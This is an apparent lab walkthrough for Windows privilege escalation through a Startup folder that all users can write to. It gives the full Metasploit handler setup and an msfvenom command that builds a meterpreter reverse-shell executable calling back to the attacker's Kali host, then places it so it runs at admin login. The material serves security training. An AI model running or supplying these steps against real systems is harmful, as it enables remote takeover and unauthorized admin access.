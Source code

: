 
# Escalation Path Startup Applications

This attack exploits **misconfigured permissions** on the Windows **Startup folder**. If **all users** have **write access**, an attacker can place a malicious executable that runs when an administrator logs in, leading to **privilege escalation**.

## Detection

**Windows VM**

Open command prompt and type: 

```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

From the output notice that the `BUILTIN\Users` group has full access ‘(F)’ to the directory.

## Exploitation

**Kali VM**

Open command prompt and type: `msfconsole` 

In Metasploit (msf > prompt) type: `use multi/handler`  

In Metasploit (msf > prompt) type:

```
set payload windows/meterpreter/reverse_tcp
```

In Metasploit (msf > prompt) type:

```
set lhost [Kali VM IP Address]
```

In Metasploit (msf > prompt) type: `run`

Open another command prompt and type:

```
**msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe 
``` 

Copy the generated file, `x.exe`, to the Windows VM.

**Windows VM**

Place `x.exe` in `“C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”`.  
Logoff.  

Login with the administrator account credentials.

**Kali VM**

Wait for a session to be created, it may take a few seconds. 

In Meterpreter(meterpreter > prompt) type: ` getuid  `

From the output, notice the user is “`User-PC\Admin`”